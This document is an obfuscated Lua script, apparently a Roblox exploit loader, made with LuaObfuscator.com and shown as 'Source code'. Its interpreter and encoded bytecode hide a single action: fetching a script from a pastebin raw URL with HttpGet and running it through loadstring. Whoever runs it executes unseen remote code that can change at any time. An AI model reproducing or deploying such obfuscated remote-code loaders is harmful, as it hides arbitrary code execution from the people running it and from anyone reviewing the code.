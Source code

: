 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v82=v2(v0(v30,16));if v19 then local v94=v5(v82,v19);v19=nil;return v94;else return v82;end end end);local function v20(v31,v32,v33) if v33 then local v83=(v31/((929 -(214 + 713))^(v32-1)))%((8 -6)^(((v33-(2 -1)) -(v32-1)) + ((119 -(32 + 85)) -1))) ;return v83-(v83%(1 -0)) ;else local v84=0 -(0 + 0) ;local v85;while true do if (v84==(1637 -(338 + 1185 + 114))) then v85=(621 -(555 + 64))^(v32-(932 -(857 + 74))) ;return (((v31%(v85 + v85))>=v85) and (1066 -(68 + 997))) or (568 -(367 + 201)) ;end end end end local function v21() local v34=957 -(892 + (245 -(67 + 113))) ;local v35;while true do if (v34==(2 -1)) then return v35;end if (v34==(0 -0)) then v35=v1(v16,v18,v18);v18=v18 + (1 -0) ;v34=351 -(87 + 193 + 70) ;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (4 -2) );v18=v18 + 2 + 0 ;return (v37 * (1017 -761)) + v36 ;end local function v23() local v38=952 -(802 + 150) ;local v39;local v40;local v41;local v42;while true do if (v38==(2 -1)) then return (v42 * (30433252 -13656036)) + (v41 * (47703 + (19020 -(1069 + 118)))) + (v40 * 256) + v39 ;end if (v38==((2261 -1264) -(915 + 82))) then v39,v40,v41,v42=v1(v16,v18,v18 + (8 -5) );v18=v18 + 3 + 1 ;v38=1 -0 ;end end end local function v24() local v43=v23();local v44=v23();local v45=1139 -(116 + 1022) ;local v46=(v20(v44,1,43 -23 ) * (((4 -3) + 1)^((33 + 23) -24))) + v43 ;local v47=v20(v44,21 + 0 ,31);local v48=((v20(v44,823 -(368 + (1544 -1121)) )==(3 -2)) and  -(19 -(10 + 8))) or (3 -2) ;if (v47==(442 -(416 + 26))) then if (v46==(0 -0)) then return v48 * (0 + 0) ;else v47=3 -2 ;v45=0;end elseif (v47==(3621 -1574)) then return ((v46==(438 -(145 + 293))) and (v48 * (((1290 -(814 + 45)) -(44 + (950 -564)))/(1486 -(998 + 488))))) or (v48 * NaN) ;end return v8(v48,v47-(325 + 698) ) * (v45 + (v46/((2 + 0)^(824 -(201 + 571))))) ;end local function v25(v49) local v50;if  not v49 then local v86=0 + 0 ;while true do if (v86==(0 + (1080 -(1020 + 60)))) then v49=v23();if (v49==(885 -(261 + 624))) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;local v51={};for v66=(1424 -(630 + 793)) -0 , #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0 -0 ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do if ((2 -0)~=v52) then else local v90=(function() return 0;end)();while true do if (v90==(0 -0)) then v59=(function() return {};end)();for v107= #"}",v58 do local v108=(function() return 0;end)();local v109=(function() return;end)();local v110=(function() return;end)();local v111=(function() return;end)();while true do if (v108==0) then v109=(function() return 0;end)();v110=(function() return nil;end)();v108=(function() return 1;end)();end if (v108~=1) then else v111=(function() return nil;end)();while true do if (0==v109) then local v171=(function() return 0;end)();while true do if (v171==1) then v109=(function() return 1;end)();break;end if ((0 -0)==v171) then v110=(function() return v21();end)();v111=(function() return nil;end)();v171=(function() return 286 -(134 + 151) ;end)();end end end if ((1666 -(970 + 695))==v109) then if (v110== #"}") then v111=(function() return v21()~=0 ;end)();elseif (v110==2) then v111=(function() return v24();end)();elseif (v110== #"19(") then v111=(function() return v25();end)();end v59[v107]=(function() return v111;end)();break;end end break;end end end v90=(function() return 1;end)();end if (v90==1) then v57[ #"-19"]=(function() return v21();end)();v52=(function() return 3;end)();break;end end end if (0==v52) then local v91=(function() return 0 -0 ;end)();local v92=(function() return;end)();while true do if (v91==(1990 -(582 + 1408))) then v92=(function() return 0;end)();while true do if (v92==(3 -2)) then v55=(function() return {};end)();v52=(function() return 1;end)();break;end if ((0 -0)~=v92) then else v53=(function() return function(v155,v156,v157) local v158=(function() return 0 -0 ;end)();local v159=(function() return;end)();while true do if (0==v158) then v159=(function() return 1824 -(1195 + 629) ;end)();while true do if (v159==(0 -0)) then v155[v156-#"[" ]=(function() return v157();end)();return v155,v156,v157;end end break;end end end;end)();v54=(function() return {};end)();v92=(function() return 242 -(187 + 54) ;end)();end end break;end end end if (v52==(781 -(162 + 618))) then local v93=(function() return 0;end)();while true do if (v93==1) then v58=(function() return v23();end)();v52=(function() return 2;end)();break;end if (v93~=(0 + 0)) then else v56=(function() return {};end)();v57=(function() return {v54,v55,nil,v56};end)();v93=(function() return 1 + 0 ;end)();end end end if (v52==(6 -3)) then for v95= #",",v23() do local v96=(function() return v21();end)();if (v20(v96, #"\\", #"{")==(0 -0)) then local v103=(function() return 0;end)();local v104=(function() return;end)();local v105=(function() return;end)();local v106=(function() return;end)();while true do if (v103==1) then local v146=(function() return 0 + 0 ;end)();local v147=(function() return;end)();while true do if (v146==(1636 -(1373 + 263))) then v147=(function() return 1000 -(451 + 549) ;end)();while true do if (v147==0) then local v173=(function() return 0;end)();while true do if (1==v173) then v147=(function() return 1 + 0 ;end)();break;end if ((0 -0)==v173) then v106=(function() return {v22(),v22(),nil,nil};end)();if (v104==0) then local v175=(function() return 0;end)();local v176=(function() return;end)();while true do if (0==v175) then v176=(function() return 0 -0 ;end)();while true do if ((1384 -(746 + 638))==v176) then v106[ #"xxx"]=(function() return v22();end)();v106[ #".com"]=(function() return v22();end)();break;end end break;end end elseif (v104== #"|") then v106[ #"-19"]=(function() return v23();end)();elseif (v104==(1 + 1)) then v106[ #"gha"]=(function() return v23() -((2 -0)^(357 -(218 + 123))) ;end)();elseif (v104~= #"xxx") then else local v181=(function() return 0;end)();local v182=(function() return;end)();while true do if ((1581 -(1535 + 46))==v181) then v182=(function() return 0;end)();while true do if ((0 + 0)~=v182) then else v106[ #"-19"]=(function() return v23() -((1 + 1)^(576 -(306 + 254))) ;end)();v106[ #"?id="]=(function() return v22();end)();break;end end break;end end end v173=(function() return 1 + 0 ;end)();end end end if (v147==(1 -0)) then v103=(function() return 1469 -(899 + 568) ;end)();break;end end break;end end end if (v103~=(0 + 0)) then else local v148=(function() return 0 -0 ;end)();while true do if ((604 -(268 + 335))==v148) then v103=(function() return 1;end)();break;end if (v148~=(290 -(60 + 230))) then else v104=(function() return v20(v96,574 -(426 + 146) , #"19(");end)();v105=(function() return v20(v96, #"?id=",6);end)();v148=(function() return 1 + 0 ;end)();end end end if (v103~=3) then else if (v20(v105, #"-19", #"nil")~= #"[") then else v106[ #"xnxx"]=(function() return v59[v106[ #"0313"]];end)();end v54[v95]=(function() return v106;end)();break;end if (v103~=(1458 -(282 + 1174))) then else if (v20(v105, #"\\", #"|")== #"]") then v106[813 -(569 + 242) ]=(function() return v59[v106[5 -3 ]];end)();end if (v20(v105,2,2)== #"<") then v106[ #"xxx"]=(function() return v59[v106[ #"91("]];end)();end v103=(function() return 1 + 2 ;end)();end end end end for v97= #" ",v23() do v55,v97,v28=(function() return v53(v55,v97,v28);end)();end return v57;end end end local function v29(v60,v61,v62) local v63=v60[1025 -(706 + 318) ];local v64=v60[1 + 1 ];local v65=v60[741 -(542 + 196) ];return function(...) local v68=v63;local v69=v64;local v70=v65;local v71=v27;local v72=1252 -(721 + 530) ;local v73= -(1272 -(945 + 326));local v74={};local v75={...};local v76=v12("#",...) -1 ;local v77={};local v78={};for v87=(0 -0) + 0 ,v76 do if (v87>=v70) then v74[v87-v70 ]=v75[v87 + (701 -(271 + 429)) ];else v78[v87]=v75[v87 + 1 + 0 ];end end local v79=(v76-v70) + ((439 + 1062) -(1408 + 92)) ;local v80;local v81;while true do v80=v68[v72];v81=v80[(553 + 534) -(461 + 625) ];if ((1738<=2195) and (v81<=(1291 -(993 + 295)))) then if ((41<=3018) and (v81<=(1 + 0 + 0))) then if ((2145<=4104) and (2821<=4824) and (v81>0)) then local v112=0;local v113;while true do if (v112==(1171 -((1101 -683) + 753))) then v113=v80[1 + 1 ];v78[v113]=v78[v113](v13(v78,v113 + 1 + 0 ,v73));break;end end else local v114=0;local v115;local v116;local v117;local v118;while true do if ((2689<4845) and (v114==(1 + 0))) then v73=(v117 + v115) -(1 + 0) ;v118=529 -(406 + 123) ;v114=1771 -(1749 + 20) ;end if ((1 + (2 -1))==v114) then for v166=v115,v73 do v118=v118 + 1 ;v78[v166]=v116[v118];end break;end if (v114==0) then v115=v80[2];v116,v117=v71(v78[v115](v13(v78,v115 + (1323 -(1249 + 73)) ,v80[2 + 1 ])));v114=1146 -(466 + 679) ;end end end elseif ((v81>2) or (2322>2622)) then local v119=v80[4 -(1553 -(1126 + 425)) ];local v120=v78[v80[3]];v78[v119 + (2 -1) ]=v120;v78[v119]=v120[v80[1904 -(106 + 1794) ]];else do return;end end elseif (v81<=(2 + (408 -(118 + 287)))) then if (v81>4) then local v124;local v125,v126;local v127;local v128;v78[v80[1 + 1 ]]={};v72=v72 + (2 -1) ;v80=v68[v72];v78[v80[5 -3 ]]=v62[v80[117 -(4 + 110) ]];v72=v72 + (585 -(57 + 527)) ;v80=v68[v72];v78[v80[1429 -(41 + (5432 -4046)) ]]=v62[v80[106 -(17 + 86) ]];v72=v72 + 1 ;v80=v68[v72];v128=v80[(1123 -(118 + 1003)) + 0 ];v127=v78[v80[3]];v78[v128 + (1 -(0 -0)) ]=v127;v78[v128]=v127[v80[4]];v72=v72 + (2 -1) ;v80=v68[v72];v78[v80[(545 -(142 + 235)) -(122 + 44) ]]=v80[5 -2 ];v72=v72 + (3 -2) ;v80=v68[v72];v128=v80[2];v125,v126=v71(v78[v128](v13(v78,v128 + 1 + 0 ,v80[1 + 2 ])));v73=(v126 + v128) -(1 -0) ;v124=65 -((136 -106) + 35) ;for v150=v128,v73 do local v151=0 + 0 ;while true do if (v151==(1257 -(1043 + 214))) then v124=v124 + (3 -2) ;v78[v150]=v125[v124];break;end end end v72=v72 + (1213 -(323 + 889)) ;v80=v68[v72];v128=v80[5 -3 ];v78[v128]=v78[v128](v13(v78,v128 + (581 -(361 + 219)) ,v73));v72=v72 + 1 ;v80=v68[v72];v78[v80[322 -(53 + 267) ]]();v72=v72 + 1 + 0 ;v80=v68[v72];do return;end else v78[v80[415 -(15 + 398) ]]=v62[v80[985 -(18 + 964) ]];end elseif (v81<=(22 -16)) then v78[v80[2]]();elseif (v81>(2 + 3 + 2)) then v78[v80[2 + 0 ]]=v80[853 -(20 + 830) ];else v78[v80[2 + 0 ]]={};end v72=v72 + (127 -(116 + 10)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F4E37567138444E6900094Q00057Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
